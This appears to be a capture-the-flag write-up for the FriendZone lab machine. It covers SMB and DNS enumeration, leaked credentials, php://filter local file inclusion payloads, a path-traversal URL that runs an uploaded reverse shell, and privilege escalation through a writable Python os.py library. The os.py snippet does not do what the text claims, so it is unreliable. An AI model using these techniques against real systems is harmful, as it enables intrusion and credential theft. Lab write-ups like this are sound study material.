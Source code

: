 # FRIENDZONE

10.10.10.123

# USER

gobuster
```
	/wordpress
	/images
	/upload
	/timestamp
```

SMB enumeration
```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Files           Disk      FriendZone Samba Server Files /etc/Files
	general         Disk      FriendZone Samba Server Files
	Development     Disk      FriendZone Samba Server Files
	IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            FROLIC

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

Command below gets to user directory
```
smbclient \\\\10.10.10.123\\general\\
```

Gives us the listing of a file containing
```
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Querying the DNS server gives us:

```
PORT   STATE SERVICE
53/udp open  domain
| dns-cache-snoop: 1 of 1 tested domains are cached.
|_friendzone.red
```

Using dnsrecon provides us with more information
https://github.com/darkoperator/dnsrecon.git

```
[*] Performing host and subdomain brute force against friendzone.red
[*] 	 A hr.friendzone.red 127.0.0.1
[*] 	 A uploads.friendzone.red 127.0.0.1
```

Using dig to query zone transfers

```
dig axfr friendzone.red @10.10.10.123
```

Outputs:
```
 axfr friendzone.red @10.10.10.123
	;; global options: +cmd
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzone.red.         604800  IN      AAAA    ::1
	friendzone.red.         604800  IN      NS      localhost.
	friendzone.red.         604800  IN      A       127.0.0.1
	administrator1.friendzone.red. 604800 IN A      127.0.0.1
	hr.friendzone.red.      604800  IN      A       127.0.0.1
	uploads.friendzone.red. 604800  IN      A       127.0.0.1
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 83 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123)
	;; WHEN: Thu Mar 07 16:29:10 UTC 2019
	;; XFR size: 8 records (messages 1, bytes 289)


 axfr friendzoneportal.red @10.10.10.123
	;; global options: +cmd
	friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzoneportal.red.   604800  IN      AAAA    ::1
	friendzoneportal.red.   604800  IN      NS      localhost.
	friendzoneportal.red.   604800  IN      A       127.0.0.1
	admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
	files.friendzoneportal.red. 604800 IN   A       127.0.0.1
	imports.friendzoneportal.red. 604800 IN A       127.0.0.1
	vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
	friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 83 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123)
	;; WHEN: Thu Mar 07 16:37:37 UTC 2019
	;; XFR size: 9 records (messages 1, bytes 309)
```

By adding 10.10.10.123 to hosts file with administrator1.friendzone.red it allows us to virutal host resolve
us to an admin page

```
https://administrator1.friendzone.red
https://uploads.friendzone.red
```

Virutal host routing allows us to use the value below as the host parameter for the https server to give us a secret login box

```
3
```

It logs us into a basic site with some sort of params that run command?


Localfile inclusion allows the reading of php files
```
?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=timestamp
?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=https://uploads.friendzone.re
upload.php
```

Way to read php code of websitess
```
pagename=php://filter/read=convert.base64-encode/resource=X
```

Uploading a reverse shell to the SMB share allows us to execute by runing:
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../../../../etc/Development/shell
```

This provides us with a shell and the user.txt.

# ROOT

Creds found in a sql_data.conf

```
friend
Agpyu12!0.213$
```

Found this python file in the /opt/ directory??

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

From further enum it can be seen that we can edit this python library
```
/usr/lib/python2.7/os.py
```

This is imported in the previous script. Therefore, anything places is ```os.py``` will be executed by the script

Exploit added:
```python
# <HACK>
flag = "" 
with open("/root/root.txt", "r") as file:
        data = file.read() 
        
with open("/tmp/" + flag, "w+") as file:
        file.write("hello") 
# </HACK>
```

This copies the root file and gives us it in the temp. This could be expanded for root shell by running a 
reverse shell
